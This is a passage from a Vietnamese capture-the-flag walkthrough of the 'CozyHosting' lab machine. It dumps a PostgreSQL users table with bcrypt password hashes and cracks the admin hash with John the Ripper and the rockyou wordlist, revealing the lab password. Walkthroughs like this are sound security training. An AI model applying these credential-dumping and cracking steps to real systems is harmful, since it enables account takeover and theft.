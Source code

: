 Tables

```bash
Schema |     Name     |   Type   |  Owner   | Persistence | Access method |    Size    | Description
--------+--------------+----------+----------+-------------+---------------+------------+-------------
 public | hosts        | table    | postgres | permanent   | heap          | 8192 bytes |
 public | hosts_id_seq | sequence | postgres | permanent   |               | 8192 bytes |
 public | users        | table    | postgres | permanent   | heap          | 8192 bytes |
(3 rows)
```

Bảng users có vẻ thú vị đấy

```bash
Table "public.users"
  Column  |          Type          | Collation | Nullable | Default
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null |
 password | character varying(100) |           | not null |
 role     | role                   |           |          |
```

Dump bảng users

```bash
	 name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

Để giải quyết đống hash này, tui sẽ dùng John-The-Ripper

```bash
┌──(root㉿kali)-[/home/kali]
└─# john hash --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)
1g 0:00:00:18 DONE (2024-01-25 04:43) 0.05305g/s 148.9p/s 148.9c/s 148.9C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Liệu josh với admin có phải là một?

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%2015.png)
